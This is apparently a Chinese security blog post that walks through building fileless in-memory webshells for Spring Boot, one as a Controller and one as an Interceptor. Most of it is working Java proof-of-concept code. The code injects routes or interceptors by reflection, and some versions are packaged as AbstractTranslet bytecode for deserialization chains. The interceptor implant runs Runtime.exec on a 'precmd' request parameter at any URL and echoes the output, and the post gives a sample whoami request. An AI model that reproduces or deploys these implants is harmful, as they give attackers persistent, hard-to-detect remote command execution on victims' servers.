前言: 不建议看
Controller内存马，因为前面完全是笔者自己在摸索，后面还错了hh（太菜啦）。跟我这个走的话可能会费力不讨好。
Interceptor内存马可以看，有前面的基础，很简单就构造出来了
0x01 环境
这里我们要创建jdk1.8的spring，新版idea需要跟换下成阿里的链接具体可以参考低版本jdk spring

这里选择springboot版本，和spring web

2.6之后的版本复现不成功，内存马可以正常注入，但是访问时报错
java.lang.IllegalArgumentException: Expected lookupPath in request attribute "org.springframework.web.util.UrlPathHelper.PATH".
查了一下发现在springboot 2.6.0之后不能有自定义注册RequestMapping的逻辑，应该也是为了防御内存马，除了添加配置目前没有找到比较好的解决方法
https://liuyanzhao.com/1503010911382802434.html
https://blog.csdn.net/maple_son/article/details/122572869

然后就可以直接写controller了
pom.xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
<modelVersion>4.0.0</modelVersion>
<groupId>org.example</groupId>
<artifactId>springboot1</artifactId>
<version>0.0.1-SNAPSHOT</version>
<name>springboot1</name>
<description>springboot1</description>
<properties>
<java.version>1.8</java.version>
<project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
<project.reporting.outputEncoding>UTF-8</project.reporting.outputEncoding>
<spring-boot.version>2.6.13</spring-boot.version>
</properties>
<dependencies>
<dependency>
<groupId>org.springframework.boot</groupId>
<artifactId>spring-boot-starter</artifactId>
</dependency>
<dependency>
<groupId>org.springframework.boot</groupId>
<artifactId>spring-boot-starter-test</artifactId>
<scope>test</scope>
</dependency>
<dependency>
<groupId>com.fasterxml.jackson.core</groupId>
<artifactId>jackson-databind</artifactId>
<version>2.15.0</version>
</dependency>
<dependency>
<groupId>com.fasterxml.jackson.core</groupId>
<artifactId>jackson-core</artifactId>
<version>2.15.0</version>
</dependency>
<dependency>
<groupId>com.fasterxml.jackson.core</groupId>
<artifactId>jackson-annotations</artifactId>
<version>2.15.0</version>
</dependency>
<dependency>
<groupId>javassist</groupId>
<artifactId>javassist</artifactId>
<version>3.12.1.GA</version>
</dependency>
<dependency>
<groupId>org.springframework.boot</groupId>
<artifactId>spring-boot-starter-web</artifactId>
</dependency>
</dependencies>
<dependencyManagement>
<dependencies>
<dependency>
<groupId>org.springframework.boot</groupId>
<artifactId>spring-boot-dependencies</artifactId>
<version>${spring-boot.version}</version>
<type>pom</type>
<scope>import</scope>
</dependency>
</dependencies>
</dependencyManagement>
<build>
<plugins>
<plugin>
<groupId>org.apache.maven.plugins</groupId>
<artifactId>maven-compiler-plugin</artifactId>
<version>3.8.1</version>
<configuration>
<source>1.8</source>
<target>1.8</target>
<encoding>UTF-8</encoding>
</configuration>
</plugin>
<plugin>
<groupId>org.springframework.boot</groupId>
<artifactId>spring-boot-maven-plugin</artifactId>
<version>${spring-boot.version}</version>
<configuration>
<mainClass>org.example.springboot1.Springboot1Application</mainClass>
<skip>true</skip>
</configuration>
<executions>
<execution>
<id>repackage</id>
<goals>
<goal>repackage</goal>
</goals>
</execution>
</executions>
</plugin>
</plugins>
</build>
</project>
Controller内存马
0x02 分析
demo1
package org.example.springboot1.controllers;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RestController;
@RestController
public class IndexController {
@GetMapping("/test")
public String index() {
System.out.println("index");
return "Welcome to the Spring Boot application!";
}
}
先建一个demo，然后调试分析，然后分析调用栈

看到DispatcherServlet.java#doDispatch，至于为什么是这个地方自己慢慢调

下一步ha.handle()中handler可以知道mappedHandler.getHandler()是存储HandlerMethod的及上面的demo对应的index()
ha.handle()后面的调用基本上就是反射来调用这个方法（demo中index）

往上翻code看我们的ha和mappedHandler怎么来的，
mappedHandler = getHandler(processedRequest);
这里其实就是根据request请求的路径去找对应的Handler和HandlerMethod了

跟进getHandler()方法
我们**/test的Handler**在RequestMappingHandlerMapping这个map就找到了，继续跟进getHandler()，看是怎么找到的

这里继续跟进getHandlerInternal()这里主要关注这个
后面代码还会
handler进行封装，添加拦截器Interceptor进去，下面这段代码，这里我们先放着，到Interceptor内存马再研究（我猜测应该是这样）
chain.addInterceptor(0, new CorsInterceptor(config));
return chain;


回归正题，继续跟进super.getHandlerInternal

可以看到lookupPath得到请求的url路径，然后lookupHandlerMethod根据url路径获取对应的HandlerMethod

跟进lookupHandlerMethod
会根据请求的url路径找到对应的Match，然后return HandlerMethod（看下图）
return bestMatch.getHandlerMethod();



所以这里我们大概的思路就是插入一个Handler以及HandlerMethod，然后请求对应url就能触发HandlerMethod中的code实现内存马
0x03 构造
这里我们再写一个API，看哪些参数有变化，免得一个个去调试了

根据前面的分析，url请求到调用方法，起点还是mappedHandler = getHandler(processedRequest);里面获取了后面要用到的参数
看到AbstractHandlerMethodMapping.java的this.mappingRegistry这个值多了/springez这对键值，那我们肯定要在这插入我们的map呀
在后面lookupHandlerMethod()方法中也是通过this.mappingRegistry来得到HandlerMethod

然后我们查找哪些地方对mappingRegistry这个值进行了赋值，这里看到registerMapping和registerHandlerMethod都会进行赋值。
节点1 删除handler内存马
unregisterMapping则是删除，这里可以用来删除handler这种内存马呀
public void registerMapping(T mapping, Object handler, Method method) {
if (logger.isTraceEnabled()) {
logger.trace("Register \"" + mapping + "\" to " + method.toGenericString());
}
this.mappingRegistry.register(mapping, handler, method);
}
public void unregisterMapping(T mapping) {
if (logger.isTraceEnabled()) {
logger.trace("Unregister mapping \"" + mapping + "\"");
}
this.mappingRegistry.unregister(mapping);
}
protected void registerHandlerMethod(Object handler, Method method, T mapping) {
this.mappingRegistry.register(mapping, handler, method);
}
后面基本上也是围绕这个mappingRegistry参数，我们打个断点看下spring是怎么添加，
spring是启动的时候通过registerHandlerMethod添加的

问题1 传参
这里大概就两个问题吧，一个是method和mapping的传参问题，还有一个就是怎么获取到对应的AbstractHandlerMethodMapping类
通过翻找调用栈发现mapping是通过getMappingForMethod()调用的结果，这里调用参数
method是对应controller的方法（index()），userType是对应controller的Class（org.example.springboot1.controllers.IndexController）

解决:
还是去翻找**调用栈**，找到Method和mapping是怎么构建获得的，看到AbstractHandlerMethodMapping.java#detectHandlerMethods

这里MethodIntrospector.selectMethods()会找到userType相关类的所有方法，然后把这些方法都传入到getMappingForMethod()中返回mapping
跟进MethodIntrospector.selectMethods()，在doWithMethods()可以得到怎么获取Method的

返回到上面getMappingForMethod()获取mapping

这里就很清楚了
-
getDeclaredMethods()得到Methods -
getMappingForMethod()得到mapping
注意这里是getDeclaredMethods()是org.springframework.util.ReflectionUtils的方法，他自己写了一个。不是Class那个

poc1
poc雏形，这里就直接通过反射获取方法调用吧
package org.example.springboot1.controllers;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RestController;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import java.lang.reflect.Method;
@RestController
public class TestController {
@GetMapping("ttee")
public String ttee() {
System.out.println("ttee");
return "tteeeeeee";
}
public static void main(String[] args) throws Exception {
//String userType = "TestController";
Class<?> aClass1 = Class.forName("org.springframework.util.ReflectionUtils");
Method getDeclaredMethods = aClass1.getDeclaredMethod("getDeclaredMethods", Class.class, boolean.class);
getDeclaredMethods.setAccessible(true);
Method[] methods = (Method[]) getDeclaredMethods.invoke(aClass1, TestController.class, true);
System.out.println(methods[1].getName());
Class<?> aClass = Class.forName("org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping");
Method getMappingForMethod = aClass.getDeclaredMethod("getMappingForMethod",Method.class,Class.class);
getMappingForMethod.setAccessible(true);
RequestMappingInfo invoke = (RequestMappingInfo) getMappingForMethod.invoke(new RequestMappingHandlerMapping(), methods[1], TestController.class);
System.out.println(invoke);
}
}
问题2 获取运行时类实例
这里我们register肯定得插入到AbstractHandlerMethodMapping.java或者this.mappingRegistry运行时对应的**实例对象才行**呀

解决：
跟踪上面提到两个值

成果只知道spring启动时这里RequestMappingHandlerMapping里面放了AbstractHandlerMethodMapping得到RequestMappingHandlerMapping就得到了AbstractHandlerMethodMapping
存档1 上下文 no
这里最后还是没找到怎么获取上下文，感觉光看调用栈找不出来，这里暂时先存个档吧，等后面懂得多了再来补。
上下文这个地方就没补充了，可以看参考里的文章，大致有4钟
poc构造
前面我们分析过spring是怎么register传入参数的，但是我这里仿照spring传入会有一些问题
这个是我最初的poc，有很多问题！_!
@RestController
public class Exec extends AbstractTranslet {
@RequestMapping("/exec")
public String Exec() throws Exception {
//String userType = "TestController";
System.out.println("main");
WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
RequestMappingHandlerMapping bean = null;
if (context != null) {
bean = context.getBean(RequestMappingHandlerMapping.class);
}
Method getDeclaredMethods = TestController.class.getDeclaredMethod("ttee");
Class<?> aClass = Class.forName("org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping");
Method getMappingForMethod = aClass.getDeclaredMethod("getMappingForMethod", Method.class, Class.class);
getMappingForMethod.setAccessible(true);
RequestMappingInfo invoke = (RequestMappingInfo) getMappingForMethod.invoke(bean, getDeclaredMethods, TestController.class);
Class<?> aClass1 = Class.forName("org.springframework.util.ReflectionUtils");
Method getDeclaredFields = aClass1.getDeclaredMethod("findField", Class.class, String.class);
getDeclaredFields.setAccessible(true);
Field Fields = (Field) getDeclaredFields.invoke(aClass1, bean.getClass(), "mappingRegistry");
// Method getDeclaredField = aClass1.getDeclaredMethod("getField", Field.class, Object.class);
// getDeclaredField.setAccessible(true);
// Object mappingRegistry = getDeclaredField.invoke(aClass1, Fields, bean);
Fields.setAccessible(true);
Object abstractHandlerMethodMapping = Fields.get(bean);
Class<?> aClass2 = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping$MappingRegistry");
Method register = aClass2.getDeclaredMethod("register", Object.class, Object.class, Method.class);
register.setAccessible(true);
register.invoke(abstractHandlerMethodMapping, invoke, "testController", getDeclaredMethods);
//abstractHandlerMethodMapping.registerMapping(invoke,"TestController",methods[2]);
System.out.println(invoke);
System.out.println("1111111111111111111111");
return "Inject done";
// }
}
@Override
public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
}
@Override
public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
}
@RestController
public class TestController {
@GetMapping("ttee")
public String ttee() {
System.out.println("ttee");
return "tteeeeeee";
}
}
}
坑点1
这里handler spring传入的是一个contorller类的名字，但是我们不能，register()中代码处理时，会在beanType中查找对应的类，但是这里的都是spring启动的时候加载的类，不会有我们的contorller
如果我们这里写indexController的，后面方法和url路径也不是在indexController.class的，后面访问也会有问题

解决：

我们看到当handler不为string时会进入HandlerMethod()
这里我们换成new TestController()
坑点2

这里第一步没问题了，但是validateMethodMapping()中校验我们传入的mapping，我们的mapping是在this.registry里的，spring的这里是null

这里会抛出异常，说我们的ttee()已经mapped过了
Ambiguous mapping. Cannot map 'com.example.demo.demos.web.Exec$TestController@42d2ba5f' method
com.example.demo.demos.web.Exec$TestController#ttee()
to {GET [/ttee]}: There is already 'com.example.demo.demos.web.Exec$TestController' bean method
com.example.demo.demos.web.Exec$TestController#ttee() mapped.
why？
跟踪this.register，发现只有调用register()才能this.register.put()放入值
我们这里再调试下是不是我们的TestController在我们register()，前就被spring register()了


调试发现 processCandidateBean()这个地方会对类进行校验，有Controller.class和RequestMapping.class注解的类会进入detectHandlerMethods()方法=>后续会调用register()
而
@RestController注解本身是基于@Controller注解扩展而来的，并且在内部它实际上是同时包含了@Controller和@ResponseBody的功能特性。所以这里会进入if
解决：
- 这里把TestController的
@RestController删掉
这里会显示写入成功，但是访问的时候会404
- 这里我看到
unregister(),就想到register()前把这个mapping注销了不就行了
当然，这是因为是本地会加载，spring会加载自己加载我们本地的TestController，如果我们本地没有TestController.class反序列化字节码会加载这个TestController还会有这个问题么
这里测试，从另一个环境调用是没这个报错的
- 为什么别人没这个问题呢，这里估计是
构造的方式不同

这个地方网上的poc都是null直接就跳过了这里，我的是和spring一模一样调用方式和参数，这里get是比较key的hash，所以我的poc这里会得到值wwww，可以用下面这种构造
PatternsRequestCondition url = new PatternsRequestCondition("/evil");
RequestMethodsRequestCondition condition = new RequestMethodsRequestCondition();
RequestMappingInfo info = new RequestMappingInfo(url, condition, null, null, null, null, null);
demo poc
package com.example.demo.demos.web;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
@RestController
public class Exec extends AbstractTranslet {
@RequestMapping("/exec")
public String Exec() throws Exception {
System.out.println("main");
WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0); //获取上下文
RequestMappingHandlerMapping bean = null;
if (context != null) {
bean = context.getBean(RequestMappingHandlerMapping.class); //获取RequestMappingHandlerMapping对象
}
Method getDeclaredMethods = TestController.class.getDeclaredMethod("ttee");
Class<?> aClass = Class.forName("org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping");
Method getMappingForMethod = aClass.getDeclaredMethod("getMappingForMethod", Method.class, Class.class);
getMappingForMethod.setAccessible(true);
RequestMappingInfo invoke = (RequestMappingInfo) getMappingForMethod.invoke(bean, getDeclaredMethods, TestController.class);
Class<?> aClass1 = Class.forName("org.springframework.util.ReflectionUtils");
Method getDeclaredFields = aClass1.getDeclaredMethod("findField", Class.class, String.class);
getDeclaredFields.setAccessible(true);
Field Fields = (Field) getDeclaredFields.invoke(aClass1, bean.getClass(), "mappingRegistry");
Fields.setAccessible(true);
//这里是获取RequestMappingHandlerMapping的mappingRegistry，对应的是AbstractHandlerMethodMapping$MappingRegistry
Object abstractHandlerMethodMapping = Fields.get(bean);
Class<?> aClass2 = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping$MappingRegistry");
Method register = aClass2.getDeclaredMethod("register", Object.class, Object.class, Method.class);
register.setAccessible(true);
Method unregister = aClass2.getDeclaredMethod("unregister", Object.class);
unregister.setAccessible(true);
unregister.invoke(abstractHandlerMethodMapping,invoke); //这里是因为是本地调用要unregister()
register.invoke(abstractHandlerMethodMapping, invoke, new TestController(), getDeclaredMethods);
System.out.println(invoke);
System.out.println("1111111111111111111111");
return "Inject done";
}
@Override
public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
}
@Override
public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
}
@RestController
public class TestController {
@GetMapping("/ttee")
public String ttee() {
System.out.println("ttee");
return "tteeeeeee";
}
}
}
但是上面这个poc不好，他还有一个调用子类（TestController）的操作，用加载字节码调用的话会报错：找不到类这个错误
还有上面这个unregister是因为是本地环境所以用这个，解决坑点2，不是本地话，如果本身没这个mapping，直接调用unregister会返回return;
最终poc(字节码形式
我们把要访问的方法写到一个Class里，本身这个Class（Exec）是能找到的，TestController会找不到
再写一个构造方法，避免实例化的时候一直循环调用无参构造方法
这里获取RequestMappingInfo我还是用的spring的方法，本地打的话要注意下（坑点2），我这里是用来打jackson原生链+spring内存马的，是加载的下面类的字节码，是可以打成功的
package payload;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RestController;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
@RestController
public class Exec extends AbstractTranslet {
@GetMapping("/ttee")
public String ttee() {
System.out.println("ttee");
return "tteeeeeee";
}
public Exec() throws Exception {
System.out.println("main");
WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
RequestMappingHandlerMapping bean = null;
if (context != null) {
bean = context.getBean(RequestMappingHandlerMapping.class);
}
Method getDeclaredMethods = Exec.class.getDeclaredMethod("ttee");
Class<?> aClass = Class.forName("org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping");
Method getMappingForMethod = aClass.getDeclaredMethod("getMappingForMethod", Method.class, Class.class);
getMappingForMethod.setAccessible(true);
RequestMappingInfo invoke = (RequestMappingInfo) getMappingForMethod.invoke(bean, getDeclaredMethods, Exec.class);
Class<?> aClass1 = Class.forName("org.springframework.util.ReflectionUtils");
Method getDeclaredFields = aClass1.getDeclaredMethod("findField", Class.class, String.class);
getDeclaredFields.setAccessible(true);
Field Fields = (Field) getDeclaredFields.invoke(aClass1, bean.getClass(), "mappingRegistry");
Fields.setAccessible(true);
Object abstractHandlerMethodMapping = Fields.get(bean);
Class<?> aClass2 = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping$MappingRegistry");
Method register = aClass2.getDeclaredMethod("register", Object.class, Object.class, Method.class);
register.setAccessible(true);
System.out.println("register------------------");
register.invoke(abstractHandlerMethodMapping, invoke, new Exec("a"), getDeclaredMethods);
System.out.println(invoke);
System.out.println("1111111111111111111111");
}
public Exec(String a) {
}
@Override
public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
}
@Override
public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
}
}
0x04 总结
起初是想自己发现和构造的，但是花了很多时间，后面也是没耐心了去看了网上文章，主要找上下文那个地方感觉思路不对（目前还没啥想法），而且收效甚微。
问题：
- 感觉构造的时候只会去一味仿照spring去构造，对类和代码的理解不够，构造的poc也很死板，不灵活
- 理解报错的能力和查阅的能力有待提高
Interceptor内存马
0x01 分析
这里写了个demo
package com.example.demo.demos.web;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import org.springframework.context.annotation.Configuration;
import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.config.annotation.InterceptorRegistry;
import org.springframework.web.servlet.config.annotation.WebMvcConfigurer;
@Configuration
public class InterceptorConfig implements WebMvcConfigurer {
// 定义内部类作为拦截器
private class MyInterceptor implements HandlerInterceptor {
@Override
public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler)
throws Exception {
// 在请求处理之前执行的逻辑
System.out.println("MyInterceptor: 在请求处理之前执行，请求路径：" + request.getRequestURI());
// 这里可以进行权限验证等操作，如果验证不通过可以返回 false 中断请求处理
return true;
}
//@Override
// public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler)
// throws Exception {
// // 在请求处理之后执行的逻辑（不再依赖ModelViewContainer）
// System.out.println("MyInterceptor: 在请求处理之后执行，请求路径：" + request.getRequestURI());
// }
@Override
public void afterCompletion(HttpServletRequest request, HttpServletResponse response, Object handler, Exception ex) {
// 在整个请求完成之后执行的逻辑
System.out.println("MyInterceptor: 在整个请求完成之后执行，请求路径：" + request.getRequestURI());
}
}
@Override
public void addInterceptors(InterceptorRegistry registry) {
// 注册内部类定义的拦截器，并指定拦截路径
registry.addInterceptor(new MyInterceptor()).addPathPatterns("/**");
}
}
controller的代码
@RequestMapping("/hello")
@ResponseBody
public String hello(@RequestParam(name = "name", defaultValue = "unknown user") String name) {
System.out.println("请求中+hello");
return "Hello " + name;
}
然后我们访问/hello返回
MyInterceptor: 在请求处理之前执行，请求路径：/hello
请求中+hello
MyInterceptor: 在整个请求完成之后执行，请求路径：/hello
请求/hello会调用preHandle()和afterCompletion()中的代码，我们内存马就可以存储在这两个方法里，然后就是插入的问题了
从demo也不难发现插入的地方，还有之前controller内存马分析的时候有个地方应该是插入点
正片开始
这里还是按照常规逻辑分析下吧，在preHandle打下断点，往前看调用栈

看到applyPreHandle()这里会循环调用HandlerInterceptor的preHandle方法

然后再往前，mappedHandler是getHandler()得到的

然后其实就是之前分析controller那个地方，证实之前的猜想，getHandler()获取mappedHandler时会去获取Interceptor
这里会循环添加this.adaptedInterceptors中的HandlerInterceptor，所以我们要污染这个值，进行插入我们的Interceptor内存马

0x02 构造
这里插入点找到了就是怎么构造了，这里我们查找this.adaptedInterceptors都没有相关的方法直接插入，但是有间接的
AbstractHandlerMapping.java
initInterceptors()这里会this.adaptedInterceptors.add(adaptInterceptor(interceptor));添加，但是是添加的this.interceptors中的值，所以我们又去找this.interceptors的插入方法
protected void initInterceptors() {
if (!this.interceptors.isEmpty()) {
for (int i = 0; i < this.interceptors.size(); i++) {
Object interceptor = this.interceptors.get(i);
if (interceptor == null) {
throw new IllegalArgumentException("Entry number " + i + " in interceptors array is null");
}
this.adaptedInterceptors.add(adaptInterceptor(interceptor));
}
}
}
setInterceptors()方法可以插入this.interceptors
这里addAll是加入我们的interceptors，不会覆盖this.interceptors之前的值，我之前还以为会覆盖掉hh
public void setInterceptors(Object... interceptors) {
this.interceptors.addAll(Arrays.asList(interceptors));
}
其实找到上面上个方法就可以利用，这里还看到initApplicationContext()方法
这里先
重置this.adaptedInterceptors，然后再重新赋值不然的话，直接调用上面方法会使
别人spring自己的interceptors多一倍
@Override
protected void initApplicationContext() throws BeansException {
extendInterceptors(this.interceptors);
detectMappedInterceptors(this.adaptedInterceptors);
initInterceptors();
}
然后这里大概顺序就是setInterceptors然后initApplicationContext完成插入，然后我们来构造poc
但是除了这些，构造poc还有些问题需要思考。
问题1 AbstractHandlerMapping
上面那几个方法都来自AbstractHandlerMapping，我们怎么得到这个类呢，我们获取上下文后得到的是RequestMappingHandlerMapping对象，然后我看这个类的属性和相关方法都不能调用到AbstractHandlerMapping
AbstractHandlerMapping是抽象类，所以上下文获取后，不能创造这个的实例

解决：
但是还有个点RequestMappingHandlerMapping是AbstractHandlerMapping的子类

调用子类没找方法时就会调用父类方法，所以这里直接用RequestMappingHandlerMapping对象！
问题2 类型
setInterceptors()这里赋值要继承Interceptor
bean.setInterceptors(new Interceptor[]{new Interceptor_demo("a")});
在initInterceptors()要插入时会进行一个类别识别及转换
所以还要继承HandlerInterceptor

0x03 poc
package com.example.demo.demos.web;
import org.aopalliance.intercept.Interceptor;
import org.springframework.lang.Nullable;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.ModelAndView;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.io.PrintWriter;
import java.lang.reflect.Method;
@RestController
public class Interceptor_demo implements HandlerInterceptor,Interceptor {
@RequestMapping("/inter")
public String Interceptor_demo() throws Exception {
System.out.println("main");
WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
RequestMappingHandlerMapping bean = null;
if (context != null) {
bean = context.getBean(RequestMappingHandlerMapping.class);
}
bean.setInterceptors(new Interceptor[]{new Interceptor_demo()});
Class<?> aClass2 = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMapping");
Method initApplicationContext = aClass2.getDeclaredMethod("initApplicationContext");
initApplicationContext.setAccessible(true);
initApplicationContext.invoke(bean);
System.out.println("1111111111111111111111");
return "Inject done";
}
@Override
public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler)
throws Exception {
String precmd = request.getParameter("precmd");
if (precmd!= null &&!precmd.isEmpty()) {
try {
Process process = Runtime.getRuntime().exec(precmd);
InputStreamReader isr = new InputStreamReader(process.getInputStream());
BufferedReader br = new BufferedReader(isr);
response.setContentType("text/plain");
PrintWriter writer = response.getWriter();
String line;
while ((line = br.readLine())!= null) {
writer.write(line + "\n");
}
br.close();
isr.close();
} catch (IOException e) {
response.setContentType("text/plain");
PrintWriter writer = response.getWriter();
writer.write("执行命令时出现异常: " + e.getMessage());
writer.close();
}
}
System.out.println("preprepreprepreprepre");
// 这里可以进行权限验证等操作，如果验证不通过可以返回 false 中断请求处理
return true;
}
// public Interceptor_demo(String a) {
// }
public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler, @Nullable ModelAndView mv) throws Exception {
System.out.println("postpostpostpostpost");
}
@Override
public void afterCompletion(HttpServletRequest request, HttpServletResponse response, Object handler, Exception ex) throws IOException {
System.out.println("afterafterafterafter");
}
}
poc这里方便复现，直接用的路由这种方式，然后用字节码加载的话要改成自构方法并且添加一个有参自构方法，并且bean.setInterceptors(new Interceptor[]{new Interceptor_demo()});这里换成有参自构方法。避免一直循环调用自构方法方法了（这里递归了）
然后这里Interceptor中
preHandle()构造回显没问题，其他两个会有问题，可能是因为后面两个方法调用在controller（这里指/hello）后面，在controller的时候已经返回值的原因.但是会
preHandle()在controller调用前调用并返回结果，会影响controller正常功能(见下图)，这样容易被察觉但是我们可以选一个其他url路径执行，why？为什么可以这样呢，我们poc中又没有配置url路径？看到下面
问题3
payload: http://127.0.0.1:8080/z?precmd=whoami

问题3 url路径
我们知道每次访问是从下图添加Interceptor的，但是这里我们的Interceptor_demo不继承MappedInterceptor，以至于会不会进行
if (mappedInterceptor.matches(request)) {的校验，所以任何url路径都会添加我们的Interceptor_demo hhh

end poc2
还是记录下来吧，方便后面用（字节码的形式）
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.aopalliance.intercept.Interceptor;
import org.springframework.lang.Nullable;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.ModelAndView;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;
import java.io.PrintWriter;
import java.lang.reflect.Method;
@RestController
public class Interceptor_demo extends AbstractTranslet implements HandlerInterceptor,Interceptor {
public Interceptor_demo() throws Exception {
System.out.println("main");
WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
RequestMappingHandlerMapping bean = null;
if (context != null) {
bean = context.getBean(RequestMappingHandlerMapping.class);
}
bean.setInterceptors(new Interceptor[]{new Interceptor_demo("a")});
Class<?> aClass2 = Class.forName("org.springframework.web.servlet.handler.AbstractHandlerMapping");
Method initApplicationContext = aClass2.getDeclaredMethod("initApplicationContext");
initApplicationContext.setAccessible(true);
initApplicationContext.invoke(bean);
System.out.println("1111111111111111111111");
}
@Override
public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
}
@Override
public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
}
public Interceptor_demo(String a) {
}
@Override
public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler)
throws Exception {
String precmd = request.getParameter("precmd");
if (precmd!= null &&!precmd.isEmpty()) {
try {
Process process = Runtime.getRuntime().exec(precmd);
InputStreamReader isr = new InputStreamReader(process.getInputStream());
BufferedReader br = new BufferedReader(isr);
response.setContentType("text/plain");
PrintWriter writer = response.getWriter();
String line;
while ((line = br.readLine())!= null) {
writer.write(line + "\n");
}
br.close();
isr.close();
} catch (IOException e) {
response.setContentType("text/plain");
PrintWriter writer = response.getWriter();
writer.write("执行命令时出现异常: " + e.getMessage());
writer.close();
}
}
System.out.println("preprepreprepreprepre");
// 这里可以进行权限验证等操作，如果验证不通过可以返回 false 中断请求处理
return true;
}
// public Interceptor_demo(String a) {
// }
public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler, @Nullable ModelAndView mv) throws Exception {
System.out.println("postpostpostpostpost");
}
@Override
public void afterCompletion(HttpServletRequest request, HttpServletResponse response, Object handler, Exception ex) throws IOException {
System.out.println("afterafterafterafter");
}
}
0x04 总结
下面这个调用顺序的原因，ha.handle是controller

Interceptor内存马相对而言简单很多，我没花多少时间就搞出来了，但是文章和一些思考有写了好久hhh
但是有个地方我要吐了，网上的poc
org.springframework.web.servlet.handler.AbstractHandlerMapping abstractHandlerMapping = (org.springframework.web.servlet.handler.AbstractHandlerMapping)context.getBean("requestMappingHandlerMapping");
java.lang.reflect.Field field = org.springframework.web.servlet.handler.AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
field.setAccessible(true);
